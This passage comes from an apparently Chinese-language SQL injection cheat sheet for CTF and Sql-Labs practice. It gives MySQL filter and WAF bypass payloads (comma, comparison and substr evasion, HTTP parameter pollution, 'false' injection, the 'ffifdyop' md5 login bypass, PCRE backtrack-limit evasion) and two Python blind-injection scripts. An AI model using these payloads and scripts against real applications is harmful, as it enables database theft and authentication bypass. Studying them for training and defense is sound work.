| floor(version()) //注意版本 | 5    | ceil(pi()*pi()+version()) | 15\  | F    | floor(pi()*(version()+pi())) | 25\  | P    |
| ceil(version())             | 6    | floor(pi()*version())     | 16\  | G    | floor(version()*version())   | 26\  | Q    |
| ceil(pi()+pi())             | 7    | ceil(pi()*version())      | 17\  | H    | ceil(version()*version())    | 27\  | R    |
| floor(version()+pi())       | 8    | ceil(pi()*version())+true | 18\  | I    | ceil(pi()*pi()*pi()-pi())    | 28\  | S    |
| floor(pi()*pi())            | 9    | floor((pi()+pi())*pi())   | 19\  | J    | floor(pi()*pi()*floor(pi())) |      |      |


### 过滤比较符号（=、<、>）


比较符号一般也只出现在盲注中，所以都尽可能搭配了脚本。


#### 使用 in() 绕过


```sql
/?id=' or ascii(substr((select database()),1,1)) in(114)--+    // 错误
/?id=' or ascii(substr((select database()),1,1)) in(115)--+    // 正常回显

/?id=' or substr((select database()),1,1) in('s')--+    // 正常回显
```


综上所述，很明显和普通的布尔盲注差不多，于是写个GET的二分法盲注脚本：


```sql
import requests

url = "xxxxxxxxxxxxxxxxxxxxxxxxxxxx/?id="

payload = "' or ascii(substr((select database()),{0},1)) in({1})--+"
flag = ''
if __name__ == "__main__":
    for i in range(1, 100):
        for j in range(37,128):
            url = "xxxxxxxxxxxxxxxxxxxxxxxxxxx/?id=' or ascii(substr((select database()),{0},1)) in({1})--+".format(i,j)
            r = requests.get(url=url)
            if "You are in" in r.text:
                flag += chr(j)
                print(flag)
```


### 过滤逗号（,）


当逗号被过滤了之后，我们便不能向下面这样正常的时候substr()函数和limit语句了：


```sql
select substr((select database()),1,1);
select * from users limit 0,1;
```


#### 使用from...for...绕过


我们可以使用 `from...for..` 语句替换 substr() 函数里的 `,1,1`：


```sql
select substr((select database()) from 1 for 1);
# 此时 from 1 for 1 中的两个1分别代替 substr() 函数里的两个1

select substr((select database()) from 1 for 1);    # s
select substr((select database()) from 2 for 1);    # e
select substr((select database()) from 3 for 1);    # c
select substr((select database()) from 4 for 1);    # u
select substr((select database()) from 5 for 1);    # r
select substr((select database()) from 6 for 1);    # i
select substr((select database()) from 7 for 1);    # t
select substr((select database()) from 8 for 1);    # y

# 如果过滤了空格, 则可以使用括号来代替空格:
select substr((select database())from(1)for(1));    # s
select substr((select database())from(2)for(1));    # e
select substr((select database())from(3)for(1));    # c
select substr((select database())from(4)for(1));    # u
select substr((select database())from(5)for(1));    # r
select substr((select database())from(6)for(1));    # i
select substr((select database())from(7)for(1));    # t
select substr((select database())from(8)for(1));    # y
```


即，from用来指定从何处开始截取，for用来指定截取的长度，如果不加for的话则 `from 1` 就相当于从字符串的第一位一直截取到最后：


```sql
select substr((select database()) from 1);    # security
select substr((select database()) from 2);    # ecurity
select substr((select database()) from 3);    # curity
select substr((select database()) from 4);    # urity
select substr((select database()) from 5);    # rity
select substr((select database()) from 6);    # ity
select substr((select database()) from 7);    # ty
select substr((select database()) from 8);    # y

# 也可以使用负数来倒着截取:
select substr((select database())from(-1));    # y
select substr((select database())from(-2));    # ty
select substr((select database())from(-3));    # ity
select substr((select database())from(-4));    # rity
select substr((select database())from(-5));    # urity
select substr((select database())from(-6));    # curity
select substr((select database())from(-7));    # ecurity
select substr((select database())from(-8));    # security
```


#### 使用offset关键字绕过


我们可以使用 `offset` 语句替换 limit 语句里的逗号：


```sql
select * from users limit 1 offset 2;
# 此时 limit 1 offset 2 可以代替 limit 1,2
```


#### 利用join与别名绕过


```sql
select host,user from user where user='a'union(select*from((select`table_name`from`information_schema`.`tables`where`table_schema`
```


### 过滤其他关键字绕过


#### 过滤 if 语句绕过


如果过滤了 if 关键字的话，我们可以使用case when语句绕过：


```sql
if(condition,1,0) <=> case when condition then 1 else 0 end
```


下面的if语句和case when语句是等效的：


```sql
0' or if((ascii(substr((select database()),1,1))>97),1,0)#

0' or case when ascii(substr((select database()),1,1))>97 then 1 else 0 end#
```


#### 过滤 substr 绕过


##### 使用 lpad/lpad


- 使用lpad()和rpad()绕过substr()


```sql
select lpad((select database()),1,1)    // s
select lpad((select database()),2,1)    // se
select lpad((select database()),3,1)    // sec
select lpad((select database()),4,1)    // secu
select lpad((select database()),5,1)    // secur
select lpad((select database()),6,1)    // securi
select lpad((select database()),7,1)    // securit
select lpad((select database()),8,1)    // security

select rpad((select database()),1,1)    // s
select rpad((select database()),2,1)    // se
select rpad((select database()),3,1)    // sec
select rpad((select database()),4,1)    // secu
select rpad((select database()),5,1)    // secur
select rpad((select database()),6,1)    // securi
select rpad((select database()),7,1)    // securit
select rpad((select database()),8,1)    // security
```


lpad：函数语法：`lpad(str1,length,str2)`。其中str1是第一个字符串，length是结果字符串的长度，str2是一个填充字符串。如果str1的长度没有length那么长，则使用str2填充；如果str1的长度大于length，则截断。


rpad：同理


- 使用left()绕过substr()


```sql
select left((select database()),1)    // s
select left((select database()),2)    // se
select left((select database()),3)    // sec
select left((select database()),4)    // secu
select left((select database()),5)    // secur
select left((select database()),6)    // securi
select left((select database()),7)    // securit
select left((select database()),8)    // security
```


- 使用mid()绕过substr()


mid()函数的使用就和substr()函数一样了：


```sql
select mid((select database()),1,1)    // s
select mid((select database()),2,1)    // e
select mid((select database()),3,1)    // c
select mid((select database()),4,1)    // u
select mid((select database()),5,1)    // r
......
```


- 还可以如下绕过


```sql
select insert(insert((select database()),1,0,space(0)),2,222,space(0));    // s
select insert(insert((select database()),1,1,space(0)),2,222,space(0));    // e
select insert(insert((select database()),1,2,space(0)),2,222,space(0));    // c
select insert(insert((select database()),1,3,space(0)),2,222,space(0));    // u
select insert(insert((select database()),1,4,space(0)),2,222,space(0));    // r
select insert(insert((select database()),1,5,space(0)),2,222,space(0));    // i
select insert(insert((select database()),1,6,space(0)),2,222,space(0));    // t
......
```


INSERT( *string* ,  *position* ,  *number* ,  *string2* )


INSERT()函数在指定位置的字符串中插入一个字符串，并插入一定数量的字符。

| 参数       | 描述                           |
| ---------- | ------------------------------ |
| *string*   | 必须项。要修改的字符串         |
| *position* | 必须项。插入*string2*的位置    |
| *number*   | 必须项。要替换的字符数         |
| *string2*  | 必须项。要插入*字符串的字符串* |


### HTTP参数污染(HPP)漏洞绕过 Waf


HPP是HTTP Parameter Pollution的缩写，意为HTTP参数污染。浏览器在跟服务器进行交互的过程中，浏览器往往会在GET或POST请求里面带上参数，这些参数会以 键-值 对的形势出现，通常在一个请求中，同样名称的参数只会出现一次。


但是在HTTP协议中是允许同样名称的参数出现多次的。比如下面这个链接：`http://www.baidu.com?name=aa&name=bb`，针对同样名称的参数出现多次的情况，不同的服务器的处理方式会不一样。有的服务器是取第一个参数，也就是 `name=aa`。有的服务器是取第二个参数，也就是 `name=bb`。有的服务器两个参数都取，也就是 `name=aa,bb`。**这种特性在绕过一些服务器端的逻辑判断时，非常有用**。


HPP漏洞，与Web服务器环境、服务端使用的脚本有关。如下是不同类型的Web服务器对于出现多个参数时的选择：

| **Web 服务器**       | **参数获取函数**          | **获取到的参数** |
| -------------------- | ------------------------- | ---------------- |
| **PHP/Apache**       | $_GET['a']                | Last             |
| **JSP/Tomcat**       | Request.getParameter('a') | First            |
| **Perl(CGI)/Apache** | Param('a')                | First            |
| **Python/Apache**    | getvalue('a')             | All              |
| **ASP/IIS**          | Request.QueryString('a')  | All              |


假设服务器端有两个部分：第一部分是Tomcat为引擎的JSP/Tomcat型服务器，第二部分是Apache为引擎的PHP/Apache型服 务器。第一部分的JSP/Tomcat服务器处做数据过滤和处理，功能类似为一个WAF，而真正提供Web服务的是PHP/Apache服务器。那么服务 端的工作流程为：客户端访问服务器，能直接访问到JSP/Tomcat服务器，然后JSP/Tomcat服务器再向PHP/Apache服务器请求数据。 数据返回路径则相反。


那么此时我们便可以利用不同服务器解析参数的位置不同绕过WAF的检测。来看看如下请求：


```sql
index.jsp?id=1&id=2
```


客户端请求首先过JSP/Tomcat服务器，JSP/Tomcat服务器解析第一个参数，接下来JSP/Tomcat服务器去请求PHP /Apache服务器，PHP/Apache服务器解析最后一个参数。假设JSP/Tomcat服务器作为Waf对第一个参数进行检测，那我们便可以在第 二个参数中传payload来绕过Waf。如下所示：


```plain
/index.jsp?id=1&id=-1' union select 1,database(),3--+
```


这样 Waf 可能只检测第一个参数 `id=1`，而PHP脚本真正识别的是 `id=select database()--+`


[例题]Sql-Labs Less-29


### False 注入绕过


#### False 注入原理


前面我们学过的注入都是基于1=1这样比较的普通注入，下面来说一说 False 注入，利用 False 我们可以绕过一些特定的 WAF 以及一些未来不确定的因素。


首先我们来看一看下面这个sql查询语句：


```sql
select * from user where uesrname = 0;
```


返回了表中全部数据


```sql
select * from user where password = 0;
```


返回的数据少了两行


同一张表，查询返回结果不同，这是为什么呢？不得不谈谈MYSQL 的隐式类型转换规则：


MYSQL 的隐式类型转换，即当字符串和数字比较时，会把字符串转为浮点数，而字符串转换为浮点数很明显会转换失败，这时就会产生一个warning，转换的结果为0，然后`0 = 0` 返回的是 `True` ，这样就将表中的数据全部返回了。但如果字符串开头是数字话还是会从数字部分截断，转换为数字进行比较，在第二个例子中，password 字段中有两个值是以数字1开头的并非为0，再进行 `passwd = 0` 比较时，会从1开始截断，`1 = 0` 不成立，当然就不返回这两条数据了。这就是 MYSQL False 注入的原理。


#### False 注入利用

下面我们讲讲 False 注入如何利用，及如何构造 False 注入的利用点。在实际中我们接触到的语句都是带有引号的，如下：

```plain
select * from user where username ='.$username.';
```

在这种情况下，我们如何绕过引号构造出 0 这个值呢，我们需要做一些处理来构造false注入的**利用点**？

可以使用的姿势有很多，比如下面的算数运算：

##### 利用算数运算

加：+

```plain
插入'+', 拼接的语句: select * from user where username =''+'';
```

减：-

```plain
插入'-', 拼接的语句: select * from user where username =''-'';
```

乘：*

```plain
插入'*', 拼接的语句: select * from user where username =''*'';
```

除：/

```plain
插入'/6#, 拼接的语句: select * from user where username =''/6#';
```

取余：%

```plain
插入'%1#, 拼接的语句: select * from user where username =''%1#';
```

##### 利用位操作运算

我们还可以使用当字符串和数字运算的时候类型转换的问题进行利用。

和运算：&

```plain
插入'&0#, 拼接的语句: select * from user where username =''&0#';
```

或运算：|

```plain
插入'|0#, 拼接的语句: select * from user where username =''|0#';
```

异或运算：^

```plain
插入'^0#, 拼接的语句: select * from user where username =''^0#';
```

移位操作：

```plain
插入'<<0# 或 '>>0#, 拼接的语句: 
select * from user where username =''<<0#';
select * from user where username =''>>0#';
```

##### 利用比较运算符

安全等于：<=>

```plain
'=0<=>1# 拼接的语句：where username=''=0<=>1#'
```

不等于<>(!=)

```plain
'=0<>0# 拼接的语句：where username=''=0<>0#'
```

小于>或<

```plain
'>-1# 拼接的语句：where username=''>-1#
```

其他

```plain
'+1 is not null#  'in(-1,1)#  'not in(1,0)#  'like 1#  'REGEXP 1#  'BETWEEN 1 AND 1#  'div 1#  'xor 1#  '=round(0,1)='1  '<>ifnull(1,2)='1
```

##### 综合利用

false注入这种注入方式有的优势就是，**在某些特定时候可以绕过WAF或者是一些其他的绕过**。

这里举例一道题

```python
<?php  
include("config.php");  
$conn ->query("set names utf8");  

function randStr($lenth=32){
     $strBase = "1234567890QWERTYUIOPASDFGHJKLZXCVBNMqwertyuiopasdfghjklzxcvbnm";
     $str = "";
     while($lenth>0){
       $str.=substr($strBase,rand(0,strlen($strBase)-1),1);
       $lenth --;
     }
    return $str;
}
if($install){
     $sql = "create table `user` (          `id` int(10) unsigned NOT NULL PRIMARY KEY  AUTO_INCREMENT ,          `username` varchar(30) NOT NULL,          `passwd` varchar(32) NOT NULL,          `role` varchar(30) NOT NULL        )ENGINE=MyISAM AUTO_INCREMENT=1 DEFAULT CHARSET=latin1 COLLATE=latin1_general_ci ";
     if($conn->query($sql)){
        $sql  = "insert into `user`(`username`,`passwd`,`role`) values ('admin','".md5(randStr())."','admin')";
        $conn -> query($sql);
     }
 }  

function filter($str){
      $filter = "/ |*|#|;|,|is|union|like|regexp|for|and|or|file|--|||`|&|".urldecode('%09')."|".urldecode("%0a")."|".urldecode("%0b")."|".urldecode('%0c')."|".urldecode('%0d')."|".urldecode('%a0')."/i";
      if(preg_match($filter,$str)){
          die("you can't input this illegal char!");
      }
      return $str;
  }   

function show($username){
   global $conn;
   $sql = "select role from `user` where username ='".$username."'";
   $res = $conn ->query($sql);
   if($res->num_rows>0){
        echo "$username is ".$res->fetch_assoc()['role'];
   }else{
        die("Don't have this user!");
   }
 }  

function login($username,$passwd){
     global $conn;
     global $flag;
     $username = trim(strtolower($username));
     $passwd = trim(strtolower($passwd));
     if($username == 'admin'){
         die("you can't login this as admin!");
     }  
     $sql = "select * from `user` where username='".$conn->escape_string($username)."' and passwd='".$conn->escape_string($passwd)."'";
     $res = $conn ->query($sql);
     if($res->num_rows>0){
           if($res->fetch_assoc()['role'] === 'admin') exit($flag);
     }else{ 
           echo "sorry,username or passwd error!";
     }
 }
  function source(){
      highlight_file(__FILE__);
 }
  $username = isset($_POST['username'])?filter($_POST['username']):"";
  $passwd = isset($_POST['passwd'])?filter($_POST['passwd']):"";
  $action = isset($_GET['action'])?filter($_GET['action']):"source";

switch($action){
    case "source": source(); break ;
    case "login" : login($username,$passwd);break;
    case "show" : show($username);break; 
}
```


我们注意到`filter()`函数


```php
$filter = "/ |*|#|;|,|is|union|like|regexp|for|and|or|file|--|||`|&|".urldecode('%09')."|".urldecode("%0a")."|".urldecode("%0b")."|".urldecode('%0c')."|".urldecode('%0d')."|".urldecode('%a0')."/i";
```


这里看起来过滤的比较多，其中and，or还有&，|都被过滤了，这个时候就可以利用**false进行盲注**。

可以在show函数利用查询的时候注入，

```python
username = "admin'^!(mid((passwd)from(-{pos}))='{passwd}')='1"
```

这里官方给出的就是利用异或，其实这里并不需要 admin 只要是一串字符串就可以

异或会使字符串都转为浮点型，都变为了0，由于`0=0^0 -> 1^0 -> 1` 当然对于这个题并不一定利用这个，直接截取字符串作比较就可以，但是这里只是提供一种姿势，由于mysql的灵活，其花样也比较多还有就是构造的payload比较简短，例如'`+`'、'`^`'、'`/4#`' 这样只有三个字符便可以绕过登录，简单粗暴，还有就是类似的文章不多，许多开发人员容易忽视这些细节。

##### 盲注脚本

```python
import requests

flag = ''

for i in range(1,33):
    for str in "abcdefghijklmnopkrstuvwxyz":
        url = "http://cc248a80-6376-49cf-b846-16c188eeb1fc.node3.buuoj.cn/Less-8/?id='^(mid((select database())from(-{0}))='{1}')='1".format(i,str+flag)
        res = requests.get(url=url)
        if "You are in..........." in res.text:
            flag = str+flag
            print(flag)
```

#### handler语句代替select查询

```plain
mysql除可使用select查询表中的数据，也可使用handler语句，这条语句使我们能够一行一行的浏览一个表中的数据，不过handler语句并不具备select语句的所有功能。它是mysql专用的语句，并没有包含到SQL标准中。
```

语法结构：

```sql
HANDLER tbl_name OPEN [ [AS] alias]

HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)
    [ WHERE where_condition ] [LIMIT ... ]
HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }
    [ WHERE where_condition ] [LIMIT ... ]
HANDLER tbl_name READ { FIRST | NEXT }
    [ WHERE where_condition ] [LIMIT ... ]

HANDLER tbl_name CLOSE
```

如：通过handler语句查询users表的内容

```sql
handler users open as yunensec; #指定数据表进行载入并将返回句柄重命名
handler yunensec read first; #读取指定表/句柄的首行数据
handler yunensec read next; #读取指定表/句柄的下一行数据
handler yunensec read next; #读取指定表/句柄的下一行数据
...
handler yunensec close; #关闭句柄
```

### '".md5($pass,true)."' 登录绕过

很多站点为了安全都会利用这样的语句：

```sql
SELECT * FROM users WHERE password = '.md5($password,true).';
```

`md5(string,true)` 函数在指定了true的时候，是返回的原始 16 字符二进制格式，也就是说会返回这样子的字符串：`'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c`：

这不是普通的二进制字符串，而是 `'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c` 这种，这样的话就会和前面的形成闭合，构成万能密码。

```sql
SELECT * FROM users WHERE password = ''or'6.......'
```

这就是永真的了，这就是一个万能密码了相当于 `1' or 1=1#` 或 `1' or 1#`。

```plain
但是我们思考一下为什么 6\xc9]\x99\xe9!r,\xf9\xedb\x1c 的布尔值是true呢？

在mysql里面，在用作布尔型判断时，以1开头的字符串会被当做整型数（这类似于PHP的弱类型）。要注意的是这种情况是必须要有单引号括起来 的，比如 password=‘xxx’ or ‘1xxxxxxxxx’，那么就相当于password=‘xxx’ or 1 ，也就相当于  password=‘xxx’ or  true，所以返回值就是true。这里不只是1开头，只要是数字开头都是可以的。当然如果只有数字的话，就不需要单引号，比如  password=‘xxx’ or 1，那么返回值也是 true。（xxx指代任意字符）
```

接下来就是找到这样子的字符串，这里给出两个吧。

ffifdyop：

```sql
content: ffifdyop
hex: 276f722736c95d99e921722cf9ed621c
raw: 'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c
string: 'or'6]!r,b
```

129581926211651571912466741651878684928：

```sql
content: 129581926211651571912466741651878684928
hex: 06da5430449f8f6f23dfc1276f722738
raw: \x06\xdaT0D\x9f\x8fo#\xdf\xc1'or'8
string: T0Do#'or'8
```

### PHP`/union.+?select/ig`绕过。

在某些题目中，题目禁止union与select同时出现时，会用此正则来判断输入数据。

- 利用点：[PHP正则回溯BUG](https://bugs.php.net/bug.php?id=70699)
- 具体分析文章：[PHP利用PCRE回溯次数限制绕过某些安全限制](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)

```plain
PHP为了防止正则表达式的拒绝服务攻击（reDOS），给pcre设定了一个回溯次数上限`pcre.backtrack_limit`。若我们输入的数据使得PHP进行回溯且此数超过了规定的回溯上限此数(默认为 100万)，那么正则停止，返回未匹配到数据。
```

故而我们构造payload：`union/*100万个a，充当垃圾数据*/select`即可绕过正则判断。

一道相关的CTF题：[TetCTF-2020 WP BY MrR3boot](https://github.com/MrR3boot/CTF/tree/master/TetCTF-2020)

### UPDATE注入重复字段赋值

即：`UPDATA table_name set field1=new_value,field1=new_value2 [where]`，最终`field1`字段的内容为`new_value2`，可用这个特性来进行UPDATA注入。如：

```plain
UPDATE table_name set field1=new_value,field1=(select user()) [where]
```

### LIMIT之后的字段数判断

我们都知道若注入点在where子语句之后，判断字段数可以用`order by`或`group by`来进行判断，而`limit`后可以利用 `into @,@` 判断字段数，其中@为mysql临时变量。

```sql
select * from users where username like 'a%' limit 1,1 into @;
报错

select * from users where username like 'a%' limit 1,1 into @,@;
不报错
说明字段数为2
```

## 常见函数


### 系统信息函数

| 函数       | 说明                                                         |
| ---------- | ------------------------------------------------------------ |
| USER()     | 获取当前操作句柄的用户名，同SESSION_USER()、CURRENT_USER()，有时也用SYSTEM_USER()。 |
| DATABASE() | 获取当前选择的数据库名，同SCHEMA()。                         |
| VERSION()  | 获取当前版本信息。                                           |

### 进制转换

| 函数                             | 说明                                                         |
| -------------------------------- | ------------------------------------------------------------ |
| ORD(str)                         | 返回字符串第一个字符的ASCII值。                              |
| OCT(N)                           | 以字符串形式返回 `N` 的八进制数，`N` 是一个BIGINT 型数值，作用相当于`CONV(N,10,8)`。 |
| HEX(N_S)                         | 参数为字符串时，返回 `N_or_S` 的16进制字符串形式，为数字时，返回其16进制数形式。 |
| UNHEX(str)                       | `HEX(str)` 的逆向函数。将参数中的每一对16进制数字都转换为10进制数字，然后再转换成 ASCII 码所对应的字符。 |
| BIN(N)                           | 返回十进制数值 `N` 的二进制数值的字符串表现形式。            |
| ASCII(str)                       | 同`ORD(string)`。                                            |
| CONV(N,from_base,to_base)        | 将数值型参数 `N` 由初始进制 `from_base` 转换为目标进制 `to_base` 的形式并返回。 |
| CHAR(N,... [USING charset_name]) | 将每一个参数 `N` 都解释为整数，返回由这些整数在 ASCII 码中所对应字符所组成的字符串。 |

### 字符截取/拼接

| 函数                         | 说明                                                         |
| ---------------------------- | ------------------------------------------------------------ |
| SUBSTR(str,N_start,N_length) | 对指定字符串进行截取，为SUBSTRING的简单版。                  |
| SUBSTRING()                  | 多种格式`SUBSTRING(str,pos)、SUBSTRING(str FROM pos)、SUBSTRING(str,pos,len)、SUBSTRING(str FROM pos FOR len)`。 |
| RIGHT(str,len)               | 对指定字符串从**最右边**截取指定长度。                       |
| LEFT(str,len)                | 对指定字符串从**最左边**截取指定长度。                       |
| RPAD(str,len,padstr)         | 在 `str`右方补齐 `len` 位的字符串 `padstr`，返回新字符串。如果 `str`长度大于 `len`，则返回值的长度将缩减到 `len`所指定的长度。 |
| LPAD(str,len,padstr)         | 与RPAD相似，在`str`左边补齐。                                |
| MID(str,pos,len)             | 同于 `SUBSTRING(str,pos,len)`。                              |
| INSERT(str,pos,len,newstr)   | 在原始字符串 `str`中，将自左数第 `pos` 位开始，长度为 `len` 个字符的字符串替换为新字符串 `newstr`，然后返回经过替换后的字符串。`INSERT(str,len,1,0x0)`可当做截取函数。 |
| CONCAT(str1,str2...)         | 函数用于将多个字符串合并为一个字符串                         |
| GROUP_CONCAT(...)            | 返回一个字符串结果，该结果由分组中的值连接组合而成。         |
| MAKE_SET(bits,str1,str2,...) | 根据参数1，返回所输入其他的参数值。可用作布尔盲注，如：`EXP(MAKE_SET((LENGTH(DATABASE())>8)+1,'1','710'))`。 |


### 常见全局变量

| 变量                  | 说明          | 变量            | 说明                 |
| --------------------- | ------------- | --------------- | -------------------- |
| @[@VERSION ]()        | 返回版本信息  | @[@HOSTNAME ]() | 返回安装的计算机名称 |
| @[@GLOBAL.VERSION ]() | 同`@@VERSION` | @[@BASEDIR ]()  | 返回MYSQL绝对路径    |


PS：查看全部全局变量`SHOW GLOBAL VARIABLES;`。


### 其他常用函数/语句

| 函数/语句                      | 说明                                                         |
| ------------------------------ | ------------------------------------------------------------ |
| LENGTH(str)                    | 返回字符串的长度。                                           |
| PI()                           | 返回π的具体数值。                                            |
| REGEXP "statement"             | 正则匹配数据，返回值为布尔值。                               |
| LIKE "statement"               | 匹配数据，%代表任意内容。返回值为布尔值。                    |
| RLIKE "statement"              | 与regexp相同。                                               |
| LOCATE(substr,str,[pos])       | 返回子字符串第一次出现的位置。                               |
| POSITION(substr IN str)        | 等同于 `LOCATE()`。                                          |
| LOWER(str)                     | 将字符串的大写字母全部转成小写。同：`LCASE(str)`。           |
| UPPER(str)                     | 将字符串的小写字母全部转成大写。同：`UCASE(str)`。           |
| ELT(N,str1,str2,str3,...)      | 与`MAKE_SET(bit,str1,str2...)`类似，根据`N`返回参数值。      |
| NULLIF(expr1,expr2)            | 若expr1与expr2相同，则返回expr1，否则返回NULL。              |
| CHARSET(str)                   | 返回字符串使用的字符集。                                     |
| DECODE(*crypt_str*,*pass_str*) | 使用 pass_str 作为密码，解密加密字符串 crypt_str。加密函数：`ENCODE(str,pass_str)`。 |

